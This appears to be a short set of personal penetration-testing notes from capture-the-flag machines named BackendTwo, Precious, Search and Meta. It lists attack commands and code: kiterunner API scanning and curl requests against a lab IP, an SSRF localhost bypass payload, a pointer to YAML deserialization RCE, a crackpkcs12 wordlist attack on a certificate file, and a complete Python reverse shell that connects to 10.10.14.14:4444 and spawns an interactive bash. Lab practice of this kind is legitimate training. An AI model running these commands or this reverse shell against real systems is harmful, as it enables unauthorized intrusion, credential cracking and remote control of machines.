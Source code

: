 Used in `BackendTwo` 

for API testing 

https://github.com/assetnote/kiterunner

```shell
./kr scan http://<target ip>/api/ -w ~/Documents/routes-large.kite -x 20
curl -X POST -v 'http://10.10.11.162/api/v1/user/signup' --header 'content-type: application/json' -d '{"email":"123@123.com","password":"1234"}' | jq .
curl -X POST -v 'http://10.10.11.162/api/v1/user/login' -d 'username=123@123.com&password=1234'
```

- SSRF

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery

```
http://0000::1:80/
```

Used in `Precious` 

YAML Deserialization

```
https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/
```

Used in `Search`

```
crackpkcs12 -d ~/Documents/rockyou.txt staff.pfx
```

Used in `Meta`

```python3
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.14.14", 4444))
dup2(s.fileno(), 0)
dup2(s.fileno(), 1)
dup2(s.fileno(), 2)
run(["/bin/bash", "-i"])
```